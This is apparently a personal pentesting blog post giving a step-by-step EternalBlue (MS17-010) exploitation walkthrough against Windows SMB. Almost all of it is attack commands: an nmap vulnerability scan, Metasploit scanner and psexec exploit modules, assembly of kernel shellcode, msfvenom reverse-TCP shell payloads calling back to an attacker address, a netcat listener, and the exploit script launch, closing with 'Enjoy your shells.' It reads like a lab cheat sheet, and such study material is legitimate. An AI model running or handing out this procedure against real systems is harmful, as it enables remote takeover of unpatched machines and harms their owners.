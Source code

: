 ```yaml
---
layout: post
title: "Exploit: EternalBlue"
date: 2022-09-04 18:07 +0100
tags: pentesting cia windows hacking
categories: [Pentesting, Exploit]
published: true
---
```


## Scanning

```bash
nmap -p 135,445 -sV -Pn -vvv --script smb-vuln-ms17-010.nse
```

## The Metasploit Way

MSF Scanner: 

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.11.1.0/24
exploit
```

MSF Payload:

```bash
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.10.10.10
set LHOST 10.10.14.3
set LPORT 1111
exploit
```

## The "Manual Way"

https://github.com/worawit/MS17-010

Pretty simple to setup the exploit, but can get confusing if you don't know what you're doing.

- Locate your target (Nmap has a scanner, so does MSF)
- Clone the git repo at the top of this post
- `cd` into the `shellcode` folder
- You should see three files, two `.asm` files and one `.py`
- Do the following for both `.asm` files:

## x64

```bash
nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin

msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=10.11.0.46 --platform windows -a x64 --format raw -o sc_x64_payload.bin

cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
```

## x86

```bash
nasm -f bin eternalblue_kshellcode_x86.asm -o sc_x86_kernel.bin

msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=10.11.0.46 --platform windows -a x86 --format raw -o sc_x86_payload.bin

cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin
```

## Combine the Binaries

```bash
python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
```

Confirm all the files are there:

```bash
ls -la
```

Should be 7 (not including the three original files)

## Fire the Payload

Start up a listener:

```bash
nc -lvnp 443
```

```bash
python eternalblue_exploit7.py 10.10.10.10 shellcode/sc_all.bin
```

Enjoy your shells.
